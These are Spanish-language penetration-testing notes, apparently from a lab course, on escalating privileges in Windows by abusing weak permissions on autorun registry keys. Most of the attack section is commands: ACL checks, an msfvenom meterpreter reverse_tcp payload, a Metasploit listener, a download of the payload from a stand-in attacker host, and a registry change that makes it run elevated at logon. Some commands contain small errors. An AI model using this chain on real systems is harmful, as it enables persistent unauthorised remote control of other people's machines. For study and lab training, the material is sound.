 
Consiste en modificar las claves de registro para que sean usadas automáticamente cuando ocurra cierto evento. Generalmente en:

- Inicio del equipo
- Login de usuario
- Inicio de servicio

 El procedimiento a seguir es:
1. Identificar registros autoruns vulnerables.
2. Explotar los permisos débiles.
3. Conseguir escalar privilegios.


```powershell
Get-Acl -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' | Format-List
```

Con este comando podemos saber si tenemos acceso a un determinado registro del sistema desde el usuario actual.

![[Pasted image 20250219090620.png]]

Como se puede apreciar el usuario student (en este ejemplo) tiene acceso a todo el control.

```powershell
regedit
```

Con este comando podemos abrir la interfaz gráfica de gestión de registros.

![[Pasted image 20250219090809.png]]

Es posible que no se nos deje modificar el registro pero si el path y apuntar a un payload generado por msfvenom.

```powershell
Get-Acl -Path 'C:\Program Files\HTTPServer' | Format-List
```

![[Pasted image 20250219091011.png]]

En este ejemplo solo tendríamos permisos de lectura y ejecución, con lo que no lo podemos llegar a modificar.

Uno de los pasos sería crear nuestro propio registro, en este caso el llamado "hacker".

![[Pasted image 20250219091128.png]]

```powershell
cd .\Desktop\
mkdir tool
```

```bash
#Generar el payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=Local_IP LPORT=PORT -f exe > program.exe

#Poner el listener
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST
exploit

#Poner un web server
python -m SimpleHTTPServer 80
```

```powershell
#Descargar el payload
iwr -YseBasicParsing -Uri http://ip_attacker/file -OutFile 'C:\Users/student/Desktop\tool\program.exe'
```

Una vez descargado el payload tenemos que modificar el registro para que apunte a este archivo.

![[Pasted image 20250219092022.png]]

```powershell
#Reiniciamos el sistema y con eso ya debería ejecutar el autorun y mandarnos una petición de conexión con permisos elevados.
shutdown -l
```

